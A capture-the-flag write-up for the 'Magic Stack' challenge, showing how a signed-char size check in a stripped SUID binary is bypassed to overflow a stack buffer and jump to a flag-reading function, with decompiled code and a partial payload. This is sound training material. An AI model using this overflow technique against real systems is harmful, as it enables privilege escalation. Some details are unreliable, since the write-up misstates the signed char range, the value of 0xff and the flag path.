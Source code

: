 # Challenge: Magic Stack

## Category: PWN

This challenge is part of the '_Bsides Rome 2023_' CTF event hosted by pwnx.io. I blooded for my team: 'ARESTeamITA'.

The challenge let you connet via ssh to a vulnerable machine that has a SUID custom binary. The binary, called 'magic', let you retrieve the flag saved
in another account /home folder as /home/flag.txt.

```bash
ssh user@<CHALLENGE_IP>  # ssh connection
scp user@<CHALLENGE_IP>:/usr/bin/magic ./magic
```

The file was a 64-bit stripped binary as you can see from the output of the ```file``` command:
```
magic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=061c4f61b2214e204f2392bf84a63723dd3973ac, for GNU/Linux 3.2.0, stripped
```

A stripped binary is harder to debug and read but for this challenge gdb and Ghidra are enough.

At this point is important to be precise and note important informations at every step.

+ Step 1: Find the main() function 

For every executable there is an 'entry point' or place where the execution code starts. 
In C/C++ compiled binary the entry point calls main() and prepare the environment using  ```__libc_start_main ```.
This step can be done via Ghidra (find the function) or via gdb that let you know the address 
```
(gdb) info files
	Entry point: 0x401150
```

Now we can read the main function:
```C
undefined8 FUN_0040129b(int param_1,long param_2)

{
  undefined local_26 [10];
  byte local_1c [10];
  byte local_12;
  byte local_11;
  FILE *local_10;
  
  setuid(1000);
  setgid(1000);
  if (param_1 < 2) {
    puts("An argument is required.");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  local_10 = fopen(*(char **)(param_2 + 8),"rb");
  if (local_10 == (FILE *)0x0) {
    puts("[-] Provide a file as input");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  memset(local_1c,0,10);
  fread(local_1c,4,1,local_10);
  local_11 = local_1c[0];
  if ('\n' < (char)local_1c[0]) {
    perror("magic size > MAX_MAGIC_SZ");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_12 = local_1c[0];
  memset(local_26,0,10);
  fread(local_26,(ulong)local_12,1,local_10);
  printf("Magic value: %s\n",local_26);
  return 0;
}
```

A beautified version is :

The main function accept as first arg a file path that is opened by ```fopen()``` function. An array of 10 char (renamed 'file_content') read 10 bytes from the FILE stream 
and checks if the first char is lower than '\n' char.

A char is a byte and can be represented as decimal, range from (-127,128), in particular '\n' is 0xa or 10 in decimal.

If the previous check is passed the value of the first char read is passed as 'size' argument of the next ```fread()```. *There is something that the attacker can control!*

+ Step 2: Identify how to read the flag

In the 'magic' binary there is another function that reads and prints the flag file:
```c
void FUN_00401236(void) {
  char local_48 [56];
  FILE *local_10;
  
  memset(local_48,0,0x32);
  local_10 = fopen("/home/pwnx/flag.txt","r");
  fread(local_48,0x27,1,local_10);
  puts(local_48);
  return;
}
```

This function is inside our file, we know its address - 0x401236 - but main() never invoke it. The attacker has to change the execution flow.

Note: the address of a function can be obtained via Ghidra or via gdb by manually exploring the code as the binary is stripped

```
(gdb) x/15i 0x401236
   0x401236:	endbr64 
   0x40123a:	push   rbp
   0x40123b:	mov    rbp,rsp
   0x40123e:	sub    rsp,0x40
   0x401242:	lea    rax,[rbp-0x40]
   0x401246:	mov    edx,0x32
   0x40124b:	mov    esi,0x0
   0x401250:	mov    rdi,rax
   0x401253:	call   0x4010f0 <memset@plt>
   0x401258:	lea    rsi,[rip+0xda5]        # 0x402004
   0x40125f:	lea    rdi,[rip+0xda0]        # 0x402006
   0x401266:	call   0x401110 <fopen@plt>
   0x40126b:	mov    QWORD PTR [rbp-0x8],rax
   0x40126f:	mov    rdx,QWORD PTR [rbp-0x8]
   0x401273:	lea    rax,[rbp-0x40]
(gdb) x/2s 0x402004
0x402004:	"r"
0x402006:	"/home/pwnx/flag.txt"
```

+ Step 3: Exploit

The attacker goal now is to use a big number over the second buffer populated by the second ```fread()```.
The tricky part is not difficult, if the the first char overflow 128 is converted as signed int in a negative number that pass the check against '\n'.

For this reason i used '\xff' char = 255 as the first byte of my payload file.

'\n' char is interpreted as 10 and '\xff' as -127 and the ```if('\n' < file_content[0])``` condition is False and the flow can continue.

Now its possible to read a lot of chars, way more than the buffer and override the Istruction Pointer to call the 'read flag' function.
It's enough to create a long strings with the function address or you can calculate the correct offset.


```bash
# no offset
# complete the exploit by yourself now
python2 -c 'print [NOW_COMPLETE_PAYLOAD] + "6\x12@\x00\x00\x00\x00\x00" * 100' > runme

/usr/bin/magic <PAYLOAD_FILE>

# calculate offset
msf-pattern_create -l 150
msf-pattern_offset -q <VALUE>
```
